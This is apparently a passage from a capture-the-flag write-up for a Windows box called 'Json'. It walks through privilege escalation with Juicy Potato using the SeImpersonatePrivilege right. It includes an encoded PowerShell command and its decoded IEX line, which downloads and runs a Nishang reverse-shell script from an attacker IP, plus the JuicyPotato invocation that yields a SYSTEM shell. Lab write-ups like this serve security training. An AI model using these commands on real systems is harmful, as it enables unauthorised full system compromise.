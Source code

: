 # Alternative way to exploit Json

## Privilege Escalation

The user _userpool_ has the **SeImpersonatePrivilege** permission set:
```
whoami /all
```
```
Privilege Name                Description                               State   
============================= ========================================= ========
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

This makes it vulnerable to a Privilege Escalation tactic called [**Juicy Potato**](https://github.com/ohpe/juicy-potato).

Creating a script _(privesc.bat)_ on the box that will be executed with elevated privileges:
```
cmd /c powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADUALwBzAGgAZQBsAGwALgBwAHMAMQAnACkA
```

The Base64-encoded string is a PowerShell command to download and execute _shell.ps1_ which is the _Invoke-PowerShellTcp.ps1_ from the **Nishang** scripts:
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/shell.ps1')
```

Copying the script from our share to a different folder:
```
copy privesc.bat C:\Users\Public\Music\privesc.bat
```

Executing the script with **JuicyPotato**:
```
.\JuicyPotato.exe -t * -p C:\Users\Public\Music\privesc.bat -l 8001 -c '{e60687f7-01a1-40aa-86ac-db1cbf673334}'
```

After executing it, the listener on my IP and port 9001 starts a reverse shell as _SYSTEM_!
